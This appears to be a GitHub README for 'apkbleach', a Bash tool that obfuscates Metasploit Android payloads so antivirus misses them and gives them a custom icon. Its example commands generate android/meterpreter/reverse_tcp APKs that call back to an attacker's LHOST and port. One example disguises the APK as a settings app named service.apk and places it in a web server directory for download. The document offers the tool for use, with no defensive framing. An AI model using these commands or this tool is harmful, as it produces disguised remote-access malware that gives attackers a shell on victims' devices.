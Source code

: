 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon

After you cd into the repo directory run the install script or manually move apkbleach to /usr/local/bin
   $ bash install.sh
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

options: 

  -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
      Generates obfuscated payload with nops
  
  -i <path/to/image.png> [ use -i --list ] to list defaults
      Sets image as the icon of the file.apk
  
  -o  <path/to/outputname.apk>
      Sets the name of custom output file
  
  -x <path/to/apk>
      Uses pre generated metasploit payload to obfuscate
  
  -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk
